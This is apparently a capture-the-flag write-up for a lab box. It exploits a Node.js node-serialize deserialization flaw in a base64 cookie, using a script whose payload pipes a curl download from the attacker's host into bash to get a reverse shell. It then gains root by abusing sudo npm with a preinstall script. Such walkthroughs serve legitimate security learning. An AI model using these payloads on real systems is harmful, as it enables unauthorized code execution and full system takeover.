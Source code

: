 # Jax sucks alot.............

### Jax sucks alot.............
Nmap shows ports 22 and 80 open. Port 80 is just one page, I enumerated with nikto, ffuf etc.. and there's only this page I need to exploit: <br />
![image](https://github.com/user-attachments/assets/48558b18-0e5a-485a-ae59-4e5f5a746ffb)<br />
If I capture a response and a request with burpsuite, I can see that the response contains a `set-cookie` header: <br />
![image](https://github.com/user-attachments/assets/328eb1dd-6ae1-4612-b951-f5f90b56e6e8)<br />
If I base64 decode the string, I get: `{"email":"test?email=test"}`. <br />
After testing a bit, this is a nodejs json deserialization vulnerability inside the cookie value. To exploit it I need to create a JSON serialized payload containing a self-executing function, and see if the server executes that function.<br /> To test if it works,
I'm going to send the following payload `eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpeyByZXR1cm4gNyo3OyB9KCkifQ==` as cookie value. This is the base64 encoded string of `{"email":"_$$ND_FUNC$$_function(){ return 7*7; }()"}`:<br />
![image](https://github.com/user-attachments/assets/caf8e6f7-3a26-4de5-b43f-52dc19829959)<br />
This confirms that the code gets executed. I now need to spawn a reverse shell. To do that, I will serialize the following payload. 

To serialize it, I used this script:

    var serialize = require('node-serialize');
    
    var payload = {
      email: "_$$ND_FUNC$$_function(){ require('child_process').exec('curl http://my_IP/shell.sh|bash'); }()"
    };
    
    var serializedPayload = serialize.serialize(payload);
    
    var encodedBase64 = Buffer.from(serializedPayload).toString('base64');
    
    console.log("Serialized and Base64 Encoded Payload: \n" + encodedBase64);
Then run it using node. I then created a reverse shell script in my local machine called `shell.sh`, opened a python web server and a netcat listener, and I got the reverse shell after sending the payload:<br />
![image](https://github.com/user-attachments/assets/39794b06-5209-40e2-bc1a-52d438c4ecd5)<br />
The nodeJS server script confirms the presence of the vulnerable function `unserialize`:<br />
![image](https://github.com/user-attachments/assets/68163b57-41b5-4590-98f6-436af577397b)<br />
Now for privesc, as dylan if I run `sudo -l` I get:<br />
![image](https://github.com/user-attachments/assets/abf959e1-8266-4548-b978-3f1de092e244)<br />
The exploit for sudo on `nmp` can be found on [gtfobins](https://gtfobins.github.io/gtfobins/npm/#sudo). Just go inside a writable folder by dylan such as `/tmp` or `/home/dylan` and run the following commands and spawn a shell as root!

    mkdir tmp
    echo '{"scripts": {"preinstall": "/bin/sh"}}' > tmp/package.json
    sudo npm -C tmp --unsafe-perm i



